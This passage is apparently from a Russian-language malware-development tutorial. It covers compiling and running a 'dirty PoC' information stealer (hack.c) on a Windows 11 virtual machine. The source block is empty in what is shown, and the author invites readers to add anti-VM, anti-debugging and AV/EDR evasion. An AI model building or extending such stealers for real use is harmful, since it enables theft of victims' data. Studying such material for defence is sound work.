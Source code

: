```cpp
```

Это тоже не такой сложный стилер, потому что это всего лишь "грязный PoC", а в реальных атаках злоумышленники используют стилеры с более сложной логикой.    

Также, как можно заметить, здесь мы не использовали трюки вроде anti-VM, anti-debugging, обхода AV/EDR и т. д. Так что, если необходимо, их можно добавить на основе моего кода.     

### демонстрация

Давайте проверим всё в действии.     

Компилируем наш "стилер" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

![вредоносное ПО](./images/126/2024-06-25_14-10.png){width="80%"}      

Запускаем его на моей виртуальной машине с Windows 11:    

```powershell
.\hack.exe
```
